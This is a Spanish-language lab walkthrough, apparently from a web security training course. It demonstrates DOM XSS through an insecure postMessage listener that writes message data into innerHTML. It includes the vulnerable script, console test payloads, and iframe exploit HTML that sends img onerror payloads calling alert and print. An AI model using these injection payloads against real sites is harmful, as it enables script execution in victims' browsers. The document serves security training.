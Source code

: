 ste laboratorio demuestra cómo una vulnerabilidad DOM XSS puede explotarse a través del uso de web messages. La página objetivo escucha mensajes entrantes con addEventListener y luego inserta su contenido directamente en el DOM dentro de un contenedor específico, sin ningún tipo de validación.

Desde el servidor de explotación, se carga la página vulnerable dentro de un iframe y se utiliza postMessage para enviar un payload malicioso que contiene una etiqueta img con un atributo onerror que ejecuta la función print. Esta acción demuestra cómo el uso inseguro de web messages puede comprometer la seguridad del sitio cuando el contenido recibido se trata como si fuera seguro.

-----

Hay un script como se muestra a continuacion:

```javascript
<script>

window.addEvenListener('message', function(e){
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

Buscamos PostMessage() javascript, al parecer es lo que se esta empleando, en la consola, ponemos lo siguiiente:

postMessage("Hola Probando")

Y se interpreta dentro de la pagina, podemos probar con inyeccion XSS:

postMessage("<script>alert(1)</script>")
postMessage("<img src=1 onerror=alert(1)>")

Entonces para hacer que el usuario, cargue esa instruccion automaticamente, hacemos lo siguiente desde el server:

```html
<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("Hola Probando","*")'></iframe>

<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("<img src=1 onerror=alert(1)>","*")'></iframe>

<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("<img src=1 onerror=print()>","*")'></iframe>
```
